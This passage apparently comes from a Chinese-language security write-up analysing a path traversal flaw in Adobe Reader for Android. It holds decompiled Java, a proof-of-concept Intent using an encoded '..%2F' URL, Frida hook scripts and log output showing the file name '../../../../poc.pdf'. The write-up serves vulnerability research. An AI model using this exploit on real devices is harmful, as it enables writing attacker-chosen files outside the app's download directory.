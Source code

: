 ```java
                if(__intent_extras_FILE_PATH_key_lastPathSegment__.lastIndexOf(46) == -1) {  // 46对应的符号为"."
                    return __intent_extras_FILE_PATH_key_lastPathSegment__ + '.' + fileExtension;  // 返回../poc.pdf
                }

                ...
            }
        }

        return __intent_extras_FILE_PATH_key_lastPathSegment__;
    }
    
    ...
}
```

修改PoC代码

```java
Intent intent = new Intent();
intent.setClassName("com.adobe.reader", "com.adobe.reader.AdobeReader");
intent.setDataAndType(Uri.parse("https://127.0.0.1/a/b/c/..%2F..%2F..%2F..%2Fpoc.pdf"), "application/*");
intent.putExtra("hideOptionalScreen", "true");
startActivity(intent);
```

打印方法`BBIntentUtils.getModifiedFileNameWithExtensionUsingIntentData()`的返回值

Frida代码

```javascript
let BBIntentUtils = Java.use("com.adobe.libs.buildingblocks.utils.BBIntentUtils");
BBIntentUtils.getModifiedFileNameWithExtensionUsingIntentData.implementation = function(str, str2, contentResolver, uri){
    console.log('[w-info] getModifiedFileNameWithExtensionUsingIntentData is called');
    let ret = this.getModifiedFileNameWithExtensionUsingIntentData(str, str2, contentResolver, uri);
    console.log('[w-info] getModifiedFileNameWithExtensionUsingIntentData ret value is ' + ret);
    return ret;
};
```

打印出来的返回值带上了`../`

```
[w-info] getModifiedFileNameWithExtensionUsingIntentData ret value is ../../../../poc.pdf
```

同时我们也看下传入`downloadFile()`的参数

Frida代码

```javascript
let ARFileFromURLDownloader = Java.use("com.adobe.reader.misc.ARFileFromURLDownloader");
ARFileFromURLDownloader.downloadFile.implementation = function(title, url){
    console.log('[w-info] downloadFile is called');
    console.log("[w-info] arg1: " + title);
    console.log("[w-info] arg2: " + url);
    console.log(Java.use("android.util.Log").getStackTraceString(Java.use("java.lang.Throwable").$new()));
    return this.downloadFile(title, url);
};
```
